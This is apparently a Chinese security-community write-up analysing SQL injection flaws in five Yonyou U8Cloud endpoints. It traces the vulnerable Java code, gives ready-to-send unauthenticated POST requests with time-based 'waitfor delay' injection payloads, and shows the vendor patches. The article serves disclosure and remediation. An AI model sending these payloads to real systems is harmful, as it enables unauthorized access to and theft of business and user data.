




# 用友 U8Cloud 几个 sql 注入分析 - 先知社区

用友 U8Cloud 几个 sql 注入分析

- - -

## KeyWordDetailReportQuery 和 KeyWordReportQuery 接口存在 SQL 注入

### 漏洞描述

攻击者未经授权可以访问数据库中的数据，从而盗取用户数据，造成用户信息泄露。

### 漏洞分析

**KeyWordDetailReportQuery 类：**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240109174749-267e3f80-aed4-1.png)

接收 json 数据后，传入`queryReportDetailByCondition`方法处理，`versionint` 为 int 类型，`reportType`、`words`参数可控。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240109174758-2b897206-aed4-1.png)

继续`getDeatailReportSql`方法

```plain
private String getDeatailReportSql(String usercode, String reportType, int version, KeyWordVO[] words) {
        String keyWordSql = this.getSqlByKeyword(words, "rep");
        StringBuffer sb = new StringBuffer();
        sb.append(" select rep.reportformid ");
        sb.append(" from iufo_reportform rep left join iufo_user_report userrep on rep.reportformid = userrep.reportformid");
        sb.append(" where ");
        sb.append(" userrep.usercode = '" + usercode + "'");
        sb.append(" and rep.reporttype = '" + reportType + "'");
        sb.append(" and rep.version = " + version);
        sb.append(" and " + keyWordSql);
        return sb.toString();
    }
```

拼接 sql 后返回，`executeQuery`方法执行拼接后的 sql。

**KeyWordReportQuery 类**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240109174811-33900352-aed4-1.png)

代码差不多，只不过传参需要改一下。

### 漏洞复现

**KeyWordDetailReportQuery 接口：**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240109174822-3a28bbe6-aed4-1.png)

```plain
POST /service/~iufo/nc.itf.iufo.mobilereport.data.KeyWordDetailReportQuery HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

{"reportType":"1';waitfor delay '0:0:3'-- ","keyword":[]}
```

或者用通用 ic 模块，当然 用友的路由把 `service`换成`servlet`也是可以的。

```plain
POST /service/~ic/nc.itf.iufo.mobilereport.data.KeyWordDetailReportQuery HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

{"reportType":"1';waitfor delay '0:0:3'-- ","keyword":[]}
```

**KeyWordReportQuery 接口：**

```plain
POST /service/~iufo/nc.itf.iufo.mobilereport.data.KeyWordReportQuery HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

{"reportType":"1';waitfor delay '0:0:3'-- ","pageInfo":{"currentPageIndex":1,"pageSize":1},"keyword":[]}
```

### 漏洞修复

补丁地址： [https://security.yonyou.com/#/noticeInfo?id=471](https://security.yonyou.com/#/noticeInfo?id=471)

进行过滤

[](https://xzfile.aliyuncs.com/media/upload/picture/20240109174839-440401ac-aed4-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240109174855-4df4bd46-aed4-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240109174917-5b0c5944-aed4-1.png)

## AppPhoneServletService 接口存在 SQL 注入

### 漏洞描述

攻击者未经授权可以访问数据库中的数据，从而盗取用户数据，造成用户信息泄露。

### 漏洞分析

`nc.pubitf.erm.mobile.appservice.AppPhoneServletService` 类

[](https://xzfile.aliyuncs.com/media/upload/picture/20240109174932-63edce4e-aed4-1.png)

默认账套编码为 `U8cloud` ，所以传参`accountCode: U8cloud`。  
`module`和`method`参数满足条件即可。  
`phone`参数存在注入，很明显的拼接。

```plain
private Map<String, Object> getUserInfoByPhone(String phone) throws BusinessException {
        String sql = "SELECT s.cuserid as cuserid, b.mobile as mobile, b.email as email, s.user_code as user_code, s.user_name as user_name,d.PK_DEPTDOC as pk_dept,d.DEPTNAME as deptname, a.PSNCODE as pcode,o.PK_CORP as pk_org, o.UNITNAME as orgname,b.id from sm_user s INNER JOIN SM_USERANDCLERK c on s.CUSERID = c.USERID INNER JOIN  BD_psndoc a  on  a.PK_PSNBASDOC = c.PK_PSNDOC INNER JOIN BD_PSNBASDOC b on a.PK_PSNBASDOC = b.PK_PSNBASDOC INNER JOIN BD_DEPTDOC d on a.PK_DEPTDOC = d.PK_DEPTDOC INNER JOIN BD_CORP o on o.PK_CORP = a.PK_CORP where b.mobile = '" + phone + "'";
        BaseDAO dao = new BaseDAO();
        Map<String, Object> returnMap = new HashMap();

        try {
            List<Object[]> userInfos = (List)dao.executeQuery(sql, new ArrayListProcessor());
```

### 漏洞复现

[](https://xzfile.aliyuncs.com/media/upload/picture/20240109175100-9847d202-aed4-1.png)

### 漏洞修复

补丁： [https://security.yonyou.com/#/noticeInfo?id=467](https://security.yonyou.com/#/noticeInfo?id=467)

检测单引号。

```plain
String module = filterStr(request.getParameter("module"));
        String method = filterStr(request.getParameter("method"));
        String phone = filterStr(request.getParameter("phone"));
        if(!SQLParamValidator.validate(phone)){
            returnErrorMsg(response, "invalid parameter");
            return;
        }
```

## ReportDetailDataQuery 接口存在 SQL 注入

### 漏洞描述

攻击者未经授权可以访问数据库中的数据，从而盗取用户数据，造成用户信息泄露。

### 漏洞分析

`nc.itf.iufo.mobilereport.data.ReportDetailDataQuery` 类

[](https://xzfile.aliyuncs.com/media/upload/picture/20240109175005-77ac89d4-aed4-1.png)

这里`formPK` 获取了两遍？  
`formPK` 可控，跟进`dataQuery.queryVO`

```plain
public ReportDataVO queryVO(String formid) throws BusinessException {
        IMobileQueryService formService = (IMobileQueryService)NCLocator.getInstance().lookup(IMobileQueryService.class);
        ReportFormVO parentvo = formService.queryVOByPk(formid);
        IReportMeasureService measureService = (IReportMeasureService)NCLocator.getInstance().lookup(IReportMeasureService.class);
        ReportMeasureVO[] measureVOs = measureService.queryMeasureVOs(formid);
        ReportDataVO dataVO = new ReportDataVO();
        dataVO.setParentVO(parentvo);
        dataVO.setChildVOs(measureVOs);
        return dataVO;
    }
```

跟进`formService.queryVOByPk`

```plain
public ReportFormVO queryVOByPk(String reportformid) throws BusinessException {
        String sql = " reportformid ='" + reportformid + "'";
        BaseDAO dao = BaseDAOUtil.createDao();
        Collection<ReportFormVO> vos = dao.retrieveByClause(ReportFormVO.class, sql);
        ReportFormVO[] froms = (ReportFormVO[])vos.toArray(new ReportFormVO[0]);
        return froms[0];
    }
```

这里构造了一个 sql 条件，

最终到达

```plain
public Collection retrieveByClause(Class className, String condition, String[] fields, SQLParameter parameters) throws DbException {
        BaseProcessor processor = new BeanListProcessor(className);
        return (Collection)this.session.executeQuery(this.buildSql(className, condition, fields), parameters, processor);
    }
```

`condition`可控，`buildSql` 方法内构造 `where` ，从而引发 sql 注入。

```plain
private String buildSql(Class className, String condition, String[] fields) {
        SuperVO vo = (SuperVO)this.InitClass(className);
        String pkName = vo.getPKFieldName();
        boolean hasPKField = false;
        StringBuffer buffer = new StringBuffer();
        String tableName = vo.getTableName();
        if (fields == null) {
            buffer.append("SELECT * FROM ").append(tableName);
        } else {
            buffer.append("SELECT ");

            for(int i = 0; i < fields.length; ++i) {
                buffer.append(fields[i]).append(",");
                if (fields[i].equalsIgnoreCase(pkName)) {
                    hasPKField = true;
                }
            }

            if (!hasPKField) {
                buffer.append(pkName).append(",");
            }

            buffer.setLength(buffer.length() - 1);
            buffer.append(" FROM ").append(tableName);
        }

        if (condition != null && condition.length() != 0) {
            if (condition.toUpperCase().trim().startsWith("ORDER ")) {
                buffer.append(" ").append(condition);
            } else {
                buffer.append(" WHERE ").append(condition);
            }
        }

        return buffer.toString();
    }
```

### 漏洞复现

```plain
POST /service/~iufo/nc.itf.iufo.mobilereport.data.ReportDetailDataQuery HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

{"reportid":"1';waitfor delay '0:0:4'--"}
```

### 漏洞修复

补丁地址： [https://security.yonyou.com/#/noticeInfo?id=465](https://security.yonyou.com/#/noticeInfo?id=465)

```plain
formPK = (String) requestMap.get("reportid");
//防 SQL 注入
DataParamValidator.validate(formPK);

public static void validate(String param) throws ServletException{
    if(param.contains("'")){
        throw new ServletException("invalid parameter");
    }
}
```

## ArchiveVerify 接口存在 SQL 注入

### 漏洞描述

攻击者未经授权可以访问数据库中的数据，从而盗取用户数据，造成用户信息泄露。

### 漏洞分析

`web.xml`

```plain
<servlet> 
 <servlet-name>ArchiveVerify</servlet-name>
  <servlet-class>nc.ele.service.ArchiveVerify</servlet-class>
</servlet>

<servlet-mapping>
  <servlet-name>ArchiveVerify</servlet-name>
  <url-pattern>/u8cuapws/rest/archive/verify</url-pattern>
</servlet-mapping>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240109175021-811fda7a-aed4-1.png)  
参数可控，让其执行到`queryGlOrgBookVO`

```plain
public static GlorgbookVO queryGlOrgBookVO(String orgbookCode) throws BusinessException {
        BaseDAO baseDao = new BaseDAO();
        GlorgbookVO[] glorgbookVOS = (GlorgbookVO[])baseDao.queryVOs(GlorgbookVO.class, " isnull(dr,0) = 0 and glorgbookcode = '" + orgbookCode + "'");
        if (glorgbookVOS != null && glorgbookVOS.length != 0) {
            return glorgbookVOS[0];
        } else {
            throw new BusinessException("请求全宗编码在 U8C 中不存在对应的主体账簿");
        }
    }
```

`queryGlOrgBookVO`\---> `queryVOs` ,`condition` 参数是可控的拼接后的 sql 条件

```plain
public <T> T[] queryVOs(Class<T> className, String condition) throws DAOException {
        PersistenceManager manager = null;
        List<T> values = null;

        try {
            manager = this.createPersistenceManager(this.dataSource);
            values = manager.queryVOList(className, condition);
        } catch (DbException var9) {
            Logger.error(var9.getMessage(), var9);
            throw new DAOException(var9.getMessage());
        } finally {
            if (manager != null) {
                manager.release();
            }

        }

        return values.toArray((Object[])((Object[])Array.newInstance(className, 0)));
    }
```

一直到

```plain
public <T> List<T> queryVOList(Class<T> className, String condition, String[] fields, SQLParameter parameters) throws DbException {
        GenericBeanListProcessor<T> processor = new GenericBeanListProcessor(className);
        return (List)this.session.executeQuery(this.buildSql(className, condition, fields), parameters, processor);
    }
```

### 漏洞复现

[](https://xzfile.aliyuncs.com/media/upload/picture/20240109174945-6b7af060-aed4-1.png)

### 漏洞修复

补丁地址： [https://security.yonyou.com/#/patchInfo?identifier=87c28d170c0545b682a8eb65f7e8dddb](https://security.yonyou.com/#/patchInfo?identifier=87c28d170c0545b682a8eb65f7e8dddb)

```plain
public static GlorgbookVO queryGlOrgBookVO(String orgbookCode) throws BusinessException{
        BaseDAO baseDao=new BaseDAO();
        SQLParameter param = new SQLParameter();
        param.addParam(orgbookCode);
//      GlorgbookVO[] glorgbookVOS = baseDao.queryVOs(GlorgbookVO.class, " isnull(dr,0) = 0 and glorgbookcode = '"+orgbookCode+"'");
        Collection<GlorgbookVO> glorgbookVOS = baseDao.retrieveByClause(GlorgbookVO.class, " isnull(dr,0) = 0 and glorgbookcode = ?", param);
        if(glorgbookVOS == null || glorgbookVOS.size() == 0){
            throw new BusinessException("请求全宗编码在 U8C 中不存在对应的主体账簿");
        }
        for(GlorgbookVO vo:glorgbookVOS){
            return vo;
        }
        throw new BusinessException("请求全宗编码在 U8C 中不存在对应的主体账簿");
    }
```
